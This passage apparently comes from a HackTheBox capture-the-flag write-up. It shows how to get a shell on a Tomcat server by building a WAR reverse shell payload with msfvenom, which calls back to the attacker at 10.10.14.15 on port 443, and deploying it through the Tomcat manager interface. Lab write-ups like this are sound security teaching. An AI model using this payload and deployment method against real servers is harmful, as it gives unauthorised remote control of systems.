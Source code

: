 #### Generate WAR

To get a shell from here is relatively simple, just like in
[Jerry](/htb-jerry.md#exploiting-tomcat) and
[Tabby](/htb-tabby.md#text-based-manager) (though in Tabby
I had to use the text-based manager instead of the.md one because the
user I leaked had only `manager-script`).

I'll generate a reverse shell payload using `msfvenom`:



    oxdf@parrot$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o rev.war
    Payload size: 13318 bytes
    Final size of war file: 13318 bytes
    Saved as: rev.war



#### Upload

To upload the WAR, I'll use the "WAR file to deploy" section on the
page, using the browse button to select `rev.war`:

![](/img/image-20210514091040405.png)

On hitting Deploy, `/rev` now shows up as an application:

![](/img/image-20210514091140439.png)
